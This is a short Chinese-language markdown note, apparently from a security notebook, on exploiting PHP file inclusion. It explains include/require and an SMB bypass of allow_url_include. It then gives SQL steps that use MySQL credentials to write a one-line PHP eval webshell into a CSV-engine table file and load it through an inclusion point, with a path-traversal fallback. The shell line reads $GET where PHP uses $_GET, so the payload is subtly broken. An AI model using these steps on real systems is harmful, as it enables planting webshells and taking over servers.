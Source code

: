 # php文件包含利用

## 文件包含函数

用于引入外部代码，减少代码冗余

include()、include_once()：运行到那一行才引入，遇到错误继续下一行

require()、require_once()：先引入整合进代码，遇到错误停止程序

> _once：只引入一次

默认情况下allow_url_include=off，不允许引入外部文件

但存在一种特殊情况，windows可以通过SMB文件共享来绕过allow_url_include，文件包含时通过SMB共享文件来包含

## 利用mysql用户名密码写入一句话木马

> 爆破不出密码就尝试找其他文件上传漏洞

> 以下命令在mysql命令行环境中执行

### 查询数据库数据存储路径

```
select @@datadir
```

结果如：`D:\MySQL\data\`

### 选择数据库

- 查看数据库列表`select databases;`
- 选中有权限的数据库`use 数据库名`

### 创建表，将一句话木马作为字段名写入

```sql
create table if not exists `t`(`a` varchar(255) not null)engine=csv;
insert into t value('<?php eval($GET[8]);?>')
```

最后需要找到可控的引入点，将`D:\MySQL\data\数据库名\t.CSV`引入

绝对路径行不通的话可以尝试下相对路径`asdjfasdasdf/../../../../../../../../MySQL/data/数据库名/t.CSV`